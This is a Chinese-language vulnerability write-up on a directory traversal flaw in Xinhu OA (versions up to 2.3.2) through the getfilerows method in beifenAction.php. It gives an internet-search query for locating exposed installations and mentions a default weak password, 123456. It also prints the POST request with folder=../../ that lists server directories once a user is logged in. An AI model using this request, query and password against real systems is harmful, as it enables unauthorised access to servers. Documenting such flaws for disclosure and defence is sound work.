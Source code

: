 # 信呼OA beifenAction.php 后台目录遍历漏洞

## 漏洞描述

信呼OA beifenAction.php文件中调用了 getfilerows方法，导致了目录遍历漏洞，攻击者通过漏洞可以获取服务器上的文件信息

## 漏洞影响

<a-checkbox checked>信呼OA <= 2.3.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="信呼协同办公系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1637826393127-40e04bac-5443-4dd6-b5d4-b2e8e7e63606.png)

其中默认存在几个用户存在弱口令 123456

![img](../../../.vuepress/public/img/1637826384345-ad90b308-7431-4a96-9baa-6808129967ea.png)

存在漏洞的文件为 **webmain/system/beifen/beifenAction.php**

![img](../../../.vuepress/public/img/1637826483632-dc07740e-e0e5-4b6e-8ce3-e24ad1398db9.png)

查看 **getfilerows()** 方法，在 **include/chajian/fileChajian.php**  

![img](../../../.vuepress/public/img/1637826756244-21762aa4-adbe-453a-86e3-452e767df30e.png)

该方法遍历目录下的文件名并输出，登录后，发送请求包

```python
POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true

folder=../../
```

![img](../../../.vuepress/public/img/1637826832637-432df24d-758c-41c0-885e-ba6f79354ce4.png)